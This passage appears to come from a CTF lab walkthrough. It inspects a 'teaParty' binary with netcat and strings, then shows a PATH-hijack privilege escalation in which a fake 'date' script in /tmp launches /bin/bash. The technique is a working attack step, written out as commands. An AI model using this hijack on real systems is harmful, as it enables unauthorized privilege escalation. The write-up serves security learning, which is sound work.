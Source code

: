 It appears we have to wait an hour from the current time (yes, I am doing this CTF at 03:20…). Some further investigation is required. Netcat is used to transfer this executable onto my local machine.

##### Command on local machine:
> nc -lnvp 54321 > teaParty

##### Command on SSH machine:
> nc [local ip] 54321 < teaParty

The file is now on my local machine. As before, ```strings``` is used to find strings in the compiled executable.

##### Command:
> strings teaParty

```
─$ strings teaParty
130 ⨯
/lib64/ld-linux-x86-64.so.2
(...)
_u/UH
[]A\A]A^A_
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
(...)
```

We see the command used to get the system time - the ```date``` command. Using a similar technique to the Python Library Hijack attack, we create a new file called ```date```, containing a shell script. Usually, ```date``` is stored in ```/bin/date```. We will put our malicious ```date``` executable in the directory above ```/bin```, so it executes instead of the true ```date```. To accomplish this, we will put the malicious ```date``` in the ```/tmp``` directory, before adding ```/tmp``` to the ```PATH``` variable.

##### Commands:
> cd /tmp

> nano date

> chmod +x date

We have also ensured that the new ```date``` file has execute permissions. The new ```date``` file now contains the following:

```
#!/bin/bash

/bin/bash
```

We now edit the ```PATH``` variable.

##### Command:
> export PATH=/tmp:$PATH

